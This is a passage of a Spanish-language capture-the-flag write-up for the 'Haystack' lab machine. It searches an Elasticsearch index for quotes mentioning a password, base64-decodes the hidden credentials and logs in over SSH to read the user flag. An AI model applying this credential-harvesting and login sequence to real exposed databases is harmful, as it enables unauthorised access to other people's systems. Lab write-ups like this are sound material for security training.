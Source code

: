 Nos devuelve una lista muy larga. Debido al nombre de la máquina Haystack, podríamos buscar esto mismo:

```json
{
        "_index": "quotes",
        "_type": "quote",
        "_id": "2",
        "_score": 1,
        "_source": {
          "quote": "There's a needle in this haystack, you have to search for it"
        }
},
```

Encontraremos esto, por lo que podríamos buscar aquí. Teniendo en cuenta que las quotes están en español, yo buscaría cosas como contraseña, clave, usuario, o cosas así que nos puedan dar información. Buscando por clave encontramos 2 referencias:

```json
{
        "_index": "quotes",
        "_type": "quote",
        "_id": "111",
        "_score": 1,
        "_source": {
          "quote": "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
        }
},
{
        "_index": "quotes",
        "_type": "quote",
        "_id": "45",
        "_score": 1,
        "_source": {
          "quote": "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
        }
},
```

Parece que está en Base 64. Si lo decodificamos veremos lo siguiente:

```bash
❯ echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d
pass: spanish.is.key
❯ echo "dXNlcjogc2VjdXJpdHkg" | base64 -d                                                                                                                                                                                                                                   ❯ echo "dXNlcjogc2VjdXJpdHkg" | base64 -d
user: security    
```

Intentaremos loguearnos con estas credenciales por SSH:

```sh
❯ ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ED25519 key fingerprint is SHA256:J8TOL2f2yaJILidImnrtW2e2lcroWsFbo0ltI9Nxzfw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ED25519) to the list of known hosts.
security@10.10.10.115's password: 
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
559dd441d9bdcb7874f...
```
